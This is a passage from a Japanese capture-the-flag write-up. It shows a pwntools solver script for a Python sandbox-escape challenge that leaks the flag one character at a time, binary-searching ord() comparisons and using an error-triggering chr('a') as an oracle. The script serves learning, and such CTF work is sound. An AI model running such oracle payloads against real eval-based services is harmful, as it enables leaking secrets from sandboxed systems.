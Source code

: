 後は、Censorshipのスクリプトにmake_n関数を追加して数値と置き換えることで解けました。  
文字列を短くするために、よく使いそうな数値をBASEにまとめています。

```py:solver.py
#!/usr/local/bin/python
from pwn import *

# KEYS = list(" .:,~^)(=-_&@#!'\"$%?}{abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWZ")
io = remote("amt.rs", 31670)
io.recvuntil(b"Give code: ")

def is_left(n: int, min: int, mid: int) -> bool:
  payload = f"{min}<=ord(_[{n}]) and ord(_[{n}])<{mid} and chr('a')".encode()
  io.sendline(payload)
  message = io.recvuntil(b"Give code: ").decode()
  return "cannot" in message

def is_right(n: int, mid: int, max: int) -> bool:
  payload = f"{mid}<ord(_[{n}]) and ord(_[{n}])<={max} and chr('a')".encode()
  io.sendline(payload)
  message = io.recvuntil(b"Give code: ").decode()
  return "cannot" in message

def is_mid(n: int, mid: int) -> bool:
  payload = f"ord(_[{n}])=={mid} and chr('a')".encode()
  io.sendline(payload)
  message = io.recvuntil(b"Give code: ").decode()
  return "cannot" in message

def b_search(n: int, min: int, max: int) -> int:
  left = min
  right = max
  while left <= right:
      mid = (left + right) // 2
      if is_left(n, min, mid):
          right = mid - 1
          continue
      if is_right(n, mid, max):
          left = mid + 1
          continue
      if is_mid(n, mid):
         return mid
      return -1
  return -1

flag = ""
for i in range(0, 61):
  print(f"i={i}")
  result = b_search(i, 32, 126)
  if result == -1:
     break
  flag += chr(result)
  print(flag)

print(f"flag: {flag}")
```
